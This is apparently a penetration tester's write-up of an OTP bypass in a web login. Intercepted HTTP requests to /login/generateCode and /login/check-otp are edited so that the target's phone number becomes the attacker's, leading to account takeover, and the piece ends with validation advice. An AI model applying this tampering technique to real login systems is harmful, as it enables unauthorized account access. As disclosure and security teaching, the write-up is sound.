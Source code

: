 Hi! In a recent web pentest project by using business logic, I was able to bypass the one-time password (OTP), leading to an account takeover.

**Discovery Process:**

My journey into this security exploit began with an examination using Burp Suite. As I delved into the application’s login page, I encountered a two-step authentication procedure. In the initial step, users were prompted to enter their phone numbers, this would trigger the generation and transmission of a one-time password (OTP) via SMS for authentication. Subsequently the users would enter the code sent to their phones to login.

While analyzing the packets sent I realized that the input validation was done incorrectly and I could generate a code for different users. To do so I needed to have a proxy in-between the client and server.

**Exploiting the Vulnerability:**

To exploit firstly I selected a target user. Next, with the interception feature of Burp Suite Proxy, I changed the target user’s phone number with my own phone number, triggering the generation of an OTP for my individual device.

Below you can see the image where I entered the target users phone number. Also the HTTP request captured on proxy where the phone number was changed with my number.

![](https://miro.medium.com/v2/resize:fit:700/1*Lw55TXOvBtc_PBTFZVTMVw.png)

POST **/login/generateCode** HTTP/1.1  
Host: **************  
Cookie: **************  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0  
Accept: */*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate, br  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Content-Length: 63  
X-Requested-With: XMLHttpRequest  
Origin: *********  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  
Te: trailers  
  
tel_no**=MY_PHONE_NUMBER**&csrf_token=*****  

After the request was sent an OTP was sent to my device instead of the target user’s phone.

The next phase involved the login process, I entered the targets phone number and the OTP code which was sent to me. Then, with the Burp Suite Intercept, I altered the phone number. This manipulation was a crucial step in allowing me to seamlessly accept the OTP generated for my device.

Below is the image of the login page where I entered the targets phone number and the OTP code which was sent to my device.

![](https://miro.medium.com/v2/resize:fit:700/1*5sK3cFY1eWGh8JXAmWulHw.png)

The HTTP request where I changed the phone number of the target’s to my own number to login to the targeted account:

**POST /login/check-otp** HTTP/1.1  
Host: **********  
Cookie: *************  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate, br  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Content-Length: 77  
Referer: *********  
X-Newrelic-Id: ********  
Newrelic: ***********  
Tracestate: ************  
X-Requested-With: XMLHttpRequest  
Origin: *************  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  
Te: trailers  
Connection: close  
  
t_el_no=_**_MY_PHONE_NUMBER_**_&otp_code_**_=MY_OTP&_**csrf_token=*****  

HTTP Response:

HTTP/1.1 200   
Server: *****  
Date: Tue, 10 Oct 2023 07:13:07 GMT  
Content-Type: application/json;charset=UTF-8  
Connection: close  
X-Frame-Options: SAMEORIGIN  
Set-Cookie: ****;   
Cache-Control: no-cache, no-store, max-age=0, must-revalidate  
Pragma: no-cache  
Expires: 0  
Strict-Transport-Security: max-age=31536000 ; includeSubDomains  
X-XSS-Protection: 1; mode=block  
X-Content-Type-Options: nosniff  
Content-Length: 170  
{"success":true,"message":"Login Succesful: TARGET_USERNAME."}  

By successfully exploiting the business logic, I gained unauthorized access to the targets account.

**Conclusion:**

This incident underscores the significance of business logic and input validation. The application should ensure that only logically valid inputs can be entered and sent. Verifying data on the client side would be incorrect since attackers can gain access using proxies. The developers must validate from the client and the server-side.

